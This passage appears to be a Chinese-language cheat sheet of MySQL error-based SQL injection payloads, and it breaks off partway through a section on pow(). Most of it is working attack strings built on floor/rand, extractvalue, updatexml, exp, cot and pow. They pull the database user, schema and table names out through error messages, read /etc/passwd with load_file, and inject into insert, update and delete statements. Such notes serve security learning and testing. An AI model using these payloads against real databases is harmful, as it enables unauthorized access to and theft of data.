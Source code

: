 ```python
select 1 from (select count(*), concat('~',(select user()),'~', floor(rand()*2))as a from information_schema.tables group by a)x;
```

![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335575-db89627b-5113-4a22-bd95-69b28b517062.png#averageHue=%23fbfbfb&id=tCzmF&originHeight=733&originWidth=1331&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)![](https://cdn.nlark.com/yuque/0/2023/png/25519932/1702364335670-5fd5d787-1630-40b5-a7f2-0b6e0e07be2c.png#averageHue=%23fafafa&id=JdtOe&originHeight=604&originWidth=1027&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

### extractvalue()

第二个参数 xml中的位置是可操作的地方

```python
 AND (EXTRACTVALUE('awdwadwa',CONCAT('#',SUBSTR(HEX((SELECT DATABASE())),1,1000))))
```

### UPDATEXML()

```python
 AND UPDATEXML(1,CONCAT(0x7e,(SELECT USER()),0x7e),1)
```

### exp(9999)

exp中的参数大于709就会报错。但是在5.7.26，也就是我的电脑并没有成功复现

```python
select exp(~(select*from(select user())x));
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
select exp(~(select*from(select load_file('/etc/passwd'))a));
insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select user())x)), 'Eyre');
update users set password='Peter' ^ exp(~(select*from(select user())x)) where id=4;
delete from users where id='1' | exp(~(select*from(select user())x));
```

这样倒更好，作为一个条件

```python
SELECT IF(3<1,EXP(30000),1)
exp(709+(1=1))
exp(710-(1=2))
```

### **cot(0)**

里面是0就会报错。可以结合条件语句进行报错注入

```python
SELECT COT(561*(IF(1>2,1,0)))
cot(1-(1=1))
```

### pow(99999,999999)

和C语言一样，是用来求平方的，我们依然利用数太大导致报错这个思路：
